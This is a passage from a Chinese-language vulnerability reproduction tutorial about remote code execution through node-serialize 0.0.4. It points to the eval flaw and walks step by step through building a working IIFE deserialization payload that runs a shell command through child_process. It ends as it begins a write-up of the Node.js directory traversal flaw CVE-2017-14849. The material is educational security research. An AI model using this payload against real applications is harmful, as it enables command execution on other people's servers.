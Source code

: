 - `node-serialize@0.0.4`漏洞点

漏洞代码位于node_modules\node-serialize\lib\serialize.js中：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20200205154630-9f94f1f6-47eb-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200205154630-9f94f1f6-47eb-1.png)

其中的关键就是：`obj[key] = eval('(' + obj[key].substring(FUNCFLAG.length) + ')');`这一行语句，可以看到传递给eval的参数是用括号包裹的，所以如果构造一个`function(){}()`函数，在反序列化时就会被当中IIFE立即调用执行。来看如何构造payload：

- 构造Payload

```
serialize = require('node-serialize');
var test = {
 rce : function(){require('child_process').exec('ls /',function(error, stdout, stderr){console.log(stdout)});},
}
console.log("序列化生成的 Payload: \n" + serialize.serialize(test));
```

生成的Payload为：

```
{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('ls /',function(error, stdout, stderr){console.log(stdout)});}"}
```

因为需要在反序列化时让其立即调用我们构造的函数，所以我们需要在生成的序列化语句的函数后面再添加一个`()`，结果如下：

```
{"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('ls /',function(error, stdout, stderr){console.log(stdout)});}()"}
```

(这里不能直接在对象内定义IIFE表达式，不然会序列化失败)

传递给unserialize(注意转义单引号)：

```
var serialize = require('node-serialize');
var payload = '{"rce":"_$$ND_FUNC$$_function(){require(\'child_process\').exec(\'ls /\',function(error, stdout, stderr){console.log(stdout)});}()"}';
serialize.unserialize(payload);
```

执行命令成功，结果如图：

[![img](https://xzfile.aliyuncs.com/media/upload/picture/20200205154640-a52824da-47eb-1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20200205154640-a52824da-47eb-1.png)

## Node.js 目录穿越漏洞复现(CVE-2017-14849)

在vulhub上面可以直接下载到环境。

漏洞影响的版本：

- Node.js 8.5.0 + Express 3.19.0-3.21.2
- Node.js 8.5.0 + Express 4.11.0-4.15.5
